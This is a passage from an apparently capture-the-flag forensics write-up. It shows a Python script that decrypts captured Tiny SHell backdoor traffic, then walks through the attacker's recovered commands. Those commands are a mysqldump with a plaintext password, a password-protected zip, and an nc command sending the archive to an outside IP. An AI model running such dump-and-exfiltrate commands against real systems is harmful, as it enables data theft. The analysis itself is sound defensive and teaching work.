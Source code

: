 ```python
                client_send_challenge = True
            elif not client_send_action:
                client_send_action = True
                if message == b"\x03":
                    sys.stdout.buffer.write(b"[+] Client send action 3 (RUNSHELL).\n")
                    sys.stdout.buffer.write(b"[+] Dumping commands run:\n")
                else:
                    sys.stdout.buffer.write(b"[!] Can't handle other actions.\n")
                    sys.exit(0)
            #sys.stdout.buffer.write(message)
        elif src_ip == server_ip:
            message, server_lct = decrypt_packet(data, server_key, server_lct)
            if not server_send_challenge:
                sys.stdout.buffer.write(b"[+] Server challenge: " + message.hex().encode() + b"\n")
                server_send_challenge = True
            else:
                sys.stdout.buffer.write(message)

```
{: file="decrypt.py "}

> There is no need to print what the client sends, since it spawns an interactive shell in this case. Thus, the server will mirror anything the client sends.
{: .prompt-tip }

Now, by running the script, we can capture all the commands run by the attacker using the `Tiny SHell`.

```console
$ python3 decrypt.py
[+] Client send IV1: 26f321efd8ee637c408657b6fd94059e33191e95
[+] Client send IV2: 3a41611cb0b4b3a0f889f679616120961d87f683
[+] Client key: b2111707b9855c80935c9373f0537f4a
[+] Server key: d11851d2a0bc9f66a9627cb0e4b6d7e4
[+] Client challenge: 5890ae86f1b91cf6298395711dde580d
[+] Server challenge: 5890ae86f1b91cf6298395711dde580d
[+] Client send action 3 (RUNSHELL).
[+] Dumping commands run:
...
root@database:/tmp# mysqldump -u mcskidy -p'aBT4ZfhteNRE3ah' elves elf > elves.sql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
root@database:/tmp# zip -P 9j[REDACTED]XR elves.zip elves.sql
  adding: elves.sql (deflated 58%)
root@database:/tmp# nc -w 3 10.13.44.207 9002 < elves.zip
...                                                                                                        
```

From the output, there are three commands that are of interest to us:

  - First, we can see the database being dumped to the `elves.sql` file with the `mysqldump` command:
  ```bash
  mysqldump -u mcskidy -p'aBT4ZfhteNRE3ah' elves elf > elves.sql
  ```
  - Second, we can see this file being archived as `elves.zip` with the `zip` binary as follows:
  ```bash
  zip -P 9j[REDACTED]XR elves.zip elves.sql
  ```
  - Third, we can also see how the attacker extracted this file using `nc`:
  ```bash
  nc -w 3 10.13.44.207 9002 < elves.zip
  ```
